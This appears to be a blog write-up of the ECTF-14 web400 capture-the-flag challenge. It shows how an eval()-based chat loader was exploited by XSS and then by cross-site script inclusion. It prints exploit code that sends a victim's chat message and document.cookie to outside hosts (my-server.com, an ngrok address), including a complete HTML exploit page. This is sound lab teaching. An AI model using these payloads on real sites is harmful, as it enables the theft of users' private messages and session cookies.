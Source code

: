 ```yaml
---
layout: post
title: ECTF-14 Web400 Writeup
tags:
- ectf
- writeup
---
```


We recently participated in [ECTF-14](http://ectf.in/) and it was a great experience. Here's a writeup to the web400 challenge:

###Problem Statement

>The chat feature was added to Facelook website and to test it, founder of the company had sent a message in chat to the admin. Admin reads all the chat messages, but does not reply to anyone. Try to get that chat message and earn the bounty.
>[Annoying Admin](http://212.71.235.214:4050/)

The challenge consisted of a simple signup and a chat message sending feature, where anyone could send a chat message to anyone. However, on the loading side, the chat message was loaded using Javascript. The code for loading the messages looked like this:

```javascript
function load_messages (id) {
    $.ajax({
    url: "http://212.71.235.214:4050/chat",
    data: {
        sender: id,
    },
    success: function( response ) {
        eval(response);
    }
    });
}
```

The url above responded as the following:

```
$('#chat_234').html('');$('#chat_234').append('dream<br />');
```

Where `dream` was the message I sent. My first attempt was to break out of the append function, and execute my own javascript, by trivially using a single quote. Unfortunately, the single quote was escaped and removed by the backend. 

Next, I tried using `&#x27;` instead of a single quote, and it worked:

Message Sent: `&#x27;+alert(1)+&#x27; `
Message received: `$('#chat_234').html('');$('#chat_234').append('dream<br />');$('#chat_234').append(''+alert(1)+'<br />');`

This seemed simple enough to exploit as XSS, so I quickly wrote up my exploit:

$.get('/chat?sender=2', function(data){
  $.post("http://my-server.com/ectf/index.php", {content: data});
});

This utilized the fact that we knew Founder's user id to be `2`. The code worked perfectly fine with my test accounts, but something weird happened when the challenge server (admin) ran it. I would get a `GET` request on the above mentioned url, instead of a POST. Also attempting to generate the URL using concat or + or any operator such as : `"http://my-server.com/index.php?data="+document.cookie` made a request to `http://my-server.com/index.php?data=`. Anything I appended was just ignored, plain and simple.


After attempting to get a POST request with cookie or session data for a lot of time, I realized that the problem was not XSS, but rather a CSRF attack. This was because the data was being loaded in a Javascript request, instead of JSON. Javascript request (using a script tag) can be made across domains, which meant that any website could access the data by using the proper script tag. We just had to add a script tag with its src set to `http://212.71.235.214:4050/chat?sender=2`. This would automatically add the chat message to a div with id `chat_2`.

The only issue was that Admin had to visit our site, with proper cookies, and we know already that admin has been sniffing for links and visiting them. So I wrote up my second (this time working) exploit:

```xml
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8"> 
  <title>ECTF14 web400 exploit</title>
</head>
<body>
  <div id="chat_2"></div>
  <div id="chat_106"></div>
  <script src="http://code.jquery.com/jquery-1.11.0.min.js"></script>
  <script>
    $(document).ready(function(){
      $.getScript("http://212.71.235.214:4050/chat?sender=2");
      setTimeout(function(){
        var text = $('#chat_2').text();
        $.post('http://20c7d53b.ngrok.com/', {content:text});
      }, 1000);
    })
  </script>
</body>
</html>
```


Unfortunately, the exploit did not work on Chrome because Chrome refused to run the script as javascript, because it was being served with a mime-type of `text/html`. It worked in firefox, and I crossed my fingers as I sent out the link to the above page to admin in a chat message. I knew admin user was using PhantomJS to run my javascript (because of the user-agent in numerous GET requests I got earlier). So, I was hopeful that this would work.

I was listening at the url, and sure enough as soon as I sent a link out to this page, admin ran my javascript and I got the flag in a POST request. 

The flag was `bad_js_is_vulnerable`.